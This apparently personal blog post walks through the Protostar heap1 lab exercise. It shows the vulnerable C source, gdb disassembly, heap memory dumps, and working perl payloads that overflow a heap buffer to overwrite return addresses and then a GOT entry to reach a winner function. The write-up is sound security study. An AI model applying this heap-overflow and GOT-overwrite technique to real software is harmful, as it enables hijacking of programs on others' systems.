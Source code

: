 ```yaml
---
layout: post
title:  "Protostar Heap1 challenge"
date:   2018-05-27 22:26:36 +0530
categories: exploit-exercises protostar heap1
---
```

[Heap1][heap1-proto-link] protostar exploit exercise introduces us to heap-overflow vulnerabilities and how they can be exploited. [Heap0][heap0-proto-link] was a relatively simple challenge so i have skipped writing about it. The source code for `heap1` is below
{% highlight cpp %}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>



struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
{% endhighlight %}

Ok. Now let us see the assembly for the vulnerable binary.
{% highlight nasm %}
user@protostar:/opt/protostar/bin$ gdb heap1
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
0x080484b9 <main+0>:	push   ebp
0x080484ba <main+1>:	mov    ebp,esp
0x080484bc <main+3>:	and    esp,0xfffffff0
0x080484bf <main+6>:	sub    esp,0x20
0x080484c2 <main+9>:	mov    DWORD PTR [esp],0x8
0x080484c9 <main+16>:	call   0x80483bc <malloc@plt>
0x080484ce <main+21>:	mov    DWORD PTR [esp+0x14],eax
0x080484d2 <main+25>:	mov    eax,DWORD PTR [esp+0x14]
0x080484d6 <main+29>:	mov    DWORD PTR [eax],0x1
0x080484dc <main+35>:	mov    DWORD PTR [esp],0x8
0x080484e3 <main+42>:	call   0x80483bc <malloc@plt>
0x080484e8 <main+47>:	mov    edx,eax
0x080484ea <main+49>:	mov    eax,DWORD PTR [esp+0x14]
0x080484ee <main+53>:	mov    DWORD PTR [eax+0x4],edx
0x080484f1 <main+56>:	mov    DWORD PTR [esp],0x8
0x080484f8 <main+63>:	call   0x80483bc <malloc@plt>
0x080484fd <main+68>:	mov    DWORD PTR [esp+0x18],eax
0x08048501 <main+72>:	mov    eax,DWORD PTR [esp+0x18]
0x08048505 <main+76>:	mov    DWORD PTR [eax],0x2
0x0804850b <main+82>:	mov    DWORD PTR [esp],0x8
0x08048512 <main+89>:	call   0x80483bc <malloc@plt>
0x08048517 <main+94>:	mov    edx,eax
0x08048519 <main+96>:	mov    eax,DWORD PTR [esp+0x18]
0x0804851d <main+100>:	mov    DWORD PTR [eax+0x4],edx
0x08048520 <main+103>:	mov    eax,DWORD PTR [ebp+0xc]
0x08048523 <main+106>:	add    eax,0x4
0x08048526 <main+109>:	mov    eax,DWORD PTR [eax]
0x08048528 <main+111>:	mov    edx,eax
0x0804852a <main+113>:	mov    eax,DWORD PTR [esp+0x14]
0x0804852e <main+117>:	mov    eax,DWORD PTR [eax+0x4]
0x08048531 <main+120>:	mov    DWORD PTR [esp+0x4],edx
0x08048535 <main+124>:	mov    DWORD PTR [esp],eax
0x08048538 <main+127>:	call   0x804838c <strcpy@plt>
0x0804853d <main+132>:	mov    eax,DWORD PTR [ebp+0xc]
0x08048540 <main+135>:	add    eax,0x8
0x08048543 <main+138>:	mov    eax,DWORD PTR [eax]
0x08048545 <main+140>:	mov    edx,eax
0x08048547 <main+142>:	mov    eax,DWORD PTR [esp+0x18]
0x0804854b <main+146>:	mov    eax,DWORD PTR [eax+0x4]
0x0804854e <main+149>:	mov    DWORD PTR [esp+0x4],edx
0x08048552 <main+153>:	mov    DWORD PTR [esp],eax
0x08048555 <main+156>:	call   0x804838c <strcpy@plt>
0x0804855a <main+161>:	mov    DWORD PTR [esp],0x804864b
0x08048561 <main+168>:	call   0x80483cc <puts@plt>
0x08048566 <main+173>:	leave  
0x08048567 <main+174>:	ret    
End of assembler dump.
{% endhighlight %}
So now we would first like to how our heap memory is allocated. To do so let us put some breakpoints.
We place break-point before and after first and second malloc calls. First malloc call is for allocating first struct and second malloc call is for allocating string within this. Now we run program with a sample input to see check heap at various positions.
We know from the source code the this binary expects two arguments from command line.
{% highlight shell %}
Breakpoint 1 at 0x80484c9: file heap1/heap1.c, line 23.
(gdb) b *0x080484ce
Breakpoint 2 at 0x80484ce: file heap1/heap1.c, line 23.
(gdb) b *0x080484e3
Breakpoint 3 at 0x80484e3: file heap1/heap1.c, line 25.
(gdb) b *0x080484e8
Breakpoint 4 at 0x80484e8: file heap1/heap1.c, line 25.
(gdb) r AAAA BBBB
Starting program: /opt/protostar/bin/heap1 AAAA BBBB
(gdb) info proc map
	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/heap1
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/heap1
	0xb7e96000 0xb7e97000     0x1000          0        
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
{% endhighlight %}
Very well. So our binary has no heap memory area before the first malloc call. Kindof expected. On `Continuing` to next breakpoint we see a heap area has been carved out now.
So we then try to see memory area around heap and how it has been created.
{% highlight shell %}
(gdb) c
Continuing.
(gdb) info proc map
Mapped address spaces:
	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/heap1
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/heap1
	 0x804a000  0x806b000    0x21000          0           [heap]
	0xb7e96000 0xb7e97000     0x1000          0        
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
(gdb) x/40x 0x804a000
0x804a000:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a010:	0x00000000	0x00020ff1	0x00000000	0x00000000
0x804a020:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
{% endhighlight %}
After first malloc call for struct has completed we see that `0x804a004` has value as `0x11`. This basically stores the size for malloc. On moving to position after next malloc the heap is
{% highlight shell %}
(gdb) x/30x 0x804a000
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a020:	0x00000000	0x00020fe1	0x00000000	0x00000000
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x0000000
{% endhighlight %}
So by now value `1` has been saved to priority at `0x804a008`.
`0x804a012` has value `0x0804a018` which tells where the newly malloced char * name will be stored.
The same happens for other two mallocs.
Now we move on to checking this vulnerability.
{% highlight shell %}
(gdb) b *0x0804853d
Breakpoint 6 at 0x804853d: file heap1/heap1.c, line 32.
(gdb) r AAAABBBBCCCCDDDDEEEEFFFFGGGG
Breakpoint 6, main (argc=2, argv=0xbffff844) at heap1/heap1.c:32
32	heap1/heap1.c: No such file or directory.
	in heap1/heap1.c
(gdb) x/30x 0x804a000
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x42424242
0x804a020:	0x43434343	0x44444444	0x45454545	0x46464646
0x804a030:	0x47474747	0x00000000	0x00000000	0x00000000
0x804a040:	0x00000000	0x00020fc1	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x00000000
(gdb) c
Continuing.
Program received signal SIGSEGV, Segmentation fault.
*__GI_strcpy (dest=0x46464646 <Address 0x46464646 out of bounds>, src=0x0) at strcpy.c:39
39	strcpy.c: No such file or directory.
	in strcpy.c
{% endhighlight %}
Seems what we wrote to as `FFFF` ie `0x46464646` was the destination address for second `strcpy`.
Our goal is to execute `winner` function. So we could overwrite return address of `main` with address of winner. Or we could also overwrite return address of second strcpy with winner's.
We first get address of winner and return address of main and second strcpy..
{% highlight shell %}
(gdb) print winner
$1 = {void (void)} 0x8048494 <winner>
(gdb) x/x $ebp+0x4
0xbffff79c:	0xb7eadc76
(gdb) b *0x08048555
Breakpoint 7 at 0x8048555: file heap1/heap1.c, line 32.
(gdb) c
Continuing.
Breakpoint 7, 0x08048555 in main (argc=2, argv=0xbffff844) at heap1/heap1.c:32
32	in heap1/heap1.c
(gdb) s
*__GI_strcpy (dest=0x46464646 <Address 0x46464646 out of bounds>, src=0x0) at strcpy.c:39
39	strcpy.c: No such file or directory.
	in strcpy.c
(gdb) x/x $ebp+0x4
0xbffff76c:	0x0804855a
{% endhighlight %}
Recalling return address is `0x4` away from `$ebp`. Also to get location where return address from second strcpy is stored, we break just before strcpy and step into us `s`. This would execute strcpy, creating a stack for it with return address.
Exploit will work as the first strcpy call will, after unchecked writing 20 dummy bytes to heap, overwrite destination address of second strcpy. And second strcpy will write this modified address ie `location of return address` with address of winner.
{% highlight shell %}
(gdb) r `perl -e 'print "A"x20 . "\x9c\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"'`
Starting program: /opt/protostar/bin/heap1 `perl -e 'print "A"x20 . "\x9c\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"'`
and that's a wrap folks!
and we have a winner @ 1527765672
Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
(gdb) r `perl -e 'print "A"x20 . "\x6c\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"'`
Starting program: /opt/protostar/bin/heap1 `perl -e 'print "A"x20 . "\x6c\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"'`
and we have a winner @ 1527765683
Program received signal SIGSEGV, Segmentation fault.
0xbffff70a in ?? ()
{% endhighlight %}
So we are able to execute winner from `gdb`. Notice how modifying strcpy return address does not output `and that's a wrap folks!` coz printf is not executed.
But when i tried running outside gdb, i was unsuccessful in both cases.
{% highlight shell %}
user@protostar:/opt/protostar/bin$ ./heap1 `perl -e 'print "A"x20 . "\x9c\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"'`
and that's a wrap folks!
user@protostar:/opt/protostar/bin$ ./heap1 `perl -e 'print "A"x20 . "\x6c\xf7\xff\xbf" . " " . "\x94\x84\x04\x08"'`
and that's a wrap folks!
{% endhighlight %}
This was probably due to stack changing when working outside gdb.
So i tried using Global Offset Table now for exploit. I had read about it while working on [format4][format4-proto-link] exercise.After 2nd `strcpy`, there is a call to `puts` for printing. `0x08048561 <main+168>:	call   0x80483cc <puts@plt>`. Here call is directed to a location in `plt` table which further points to `GOT` table.
{% highlight shell %}
(gdb) disas 0x80483cc
Dump of assembler code for function puts@plt:
0x080483cc <puts@plt+0>:	jmp    DWORD PTR ds:0x8049774
0x080483d2 <puts@plt+6>:	push   0x30
0x080483d7 <puts@plt+11>:	jmp    0x804835c
End of assembler dump.
(gdb) x/x 0x8049774
0x8049774 <_GLOBAL_OFFSET_TABLE_+36>:	0x080483d2
{% endhighlight %}
`0x8049774` is pointer to entry in `GOT` which has value `0x080483d2`. This value is what needs to be
overwritten with winner address. So with a change to our desination address for second strcpy we are able to execute winner.
{% highlight shell %}
(gdb) r `perl -e 'print "A"x20 . "\x74\x97\x04\x08" . " " . "\x94\x84\x04\x08"'`
Breakpoint 1, 0x08048561 in main (argc=3, argv=0xbffff844) at heap1/heap1.c:34
(gdb) disas 0x80483cc
Dump of assembler code for function puts@plt:
0x080483cc <puts@plt+0>:	jmp    DWORD PTR ds:0x8049774
0x080483d2 <puts@plt+6>:	push   0x30
0x080483d7 <puts@plt+11>:	jmp    0x804835c
(gdb) x/x 0x8049774
0x8049774 <_GLOBAL_OFFSET_TABLE_+36>:	0x08048494
(gdb) c
Continuing.
and we have a winner @ 1527769804
Program exited with code 042.
{% endhighlight %}
{% highlight shell %}
user@protostar:/opt/protostar/bin$ ./heap1 `perl -e 'print "A"x20 . "\x74\x97\x04\x08" . " " . "\x94\x84\x04\x08"'`
and we have a winner @ 1527769887
{% endhighlight %}
Since `GOT` address are stable both inside and out of gdb we are also able to get to winner w/o gdb.

[heap1-proto-link]:https://exploit-exercises.com/protostar/heap1/
[heap0-proto-link]:https://exploit-exercises.com/protostar/heap0/
[format4-proto-link]:https://exploit-exercises.com/protostar/format4
